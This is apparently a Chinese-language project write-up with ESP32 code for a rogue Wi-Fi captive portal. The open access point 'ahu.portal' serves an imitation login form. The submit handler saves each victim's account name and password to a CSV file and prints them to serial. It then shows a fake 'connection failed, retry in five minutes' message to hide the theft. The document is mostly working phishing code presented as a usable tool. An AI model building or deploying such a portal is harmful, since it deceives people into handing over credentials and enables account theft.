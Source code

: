 ### AP 配置

```cpp
const char* AP_SSID = "ahu.portal";
const char* AP_PASSWORD = NULL;
const int AP_CHANNEL = 13;
```

### RGB LED 配置

```cpp
#define LED_PIN 48
#define LED_COUNT 1
Adafruit_NeoPixel strip(LED_COUNT, LED_PIN, NEO_GRB + NEO_KHZ800);
```

### 门户页面 HTML

门户页面的 HTML 代码存储在 `portalPage` 变量中，包含一个仿真的登录表单和样式。

## 主要功能实现

### 数据提交处理

```cpp
void handleSubmit() {
  String account = webServer.arg("account");
  String password = webServer.arg("password");

  Serial.printf("收到新数据：\n账号：%s\n密码：%s\n\n", account.c_str(), password.c_str());

  File file = SPIFFS.open("/data.csv", FILE_APPEND);
  if (!file) {
    Serial.println("文件打开失败！错误代码: " + String(file.getWriteError()));
    webServer.send(500, "text/plain", "服务器存储错误");
    return;
  }
  
  if (!file.printf("%lu,%s,%s\n", millis(), account.c_str(), password.c_str())) {
    Serial.println("写入失败！剩余空间: " + String(SPIFFS.totalBytes() - SPIFFS.usedBytes()) + " bytes");
    webServer.send(500, "text/plain", "写入失败");
  } else {
    Serial.println("数据已保存");
    strip.setPixelColor(0, strip.Color(0, 255, 0)); // 设置灯珠为绿色
    strip.setBrightness(10); // 设置亮度（0-255范围）
    strip.show();
    webServer.send(200, "text/html; charset=utf-8", "<h2>连接失败，请五分钟后稍后再试！</h2>");
  }
  file.close();
}
```
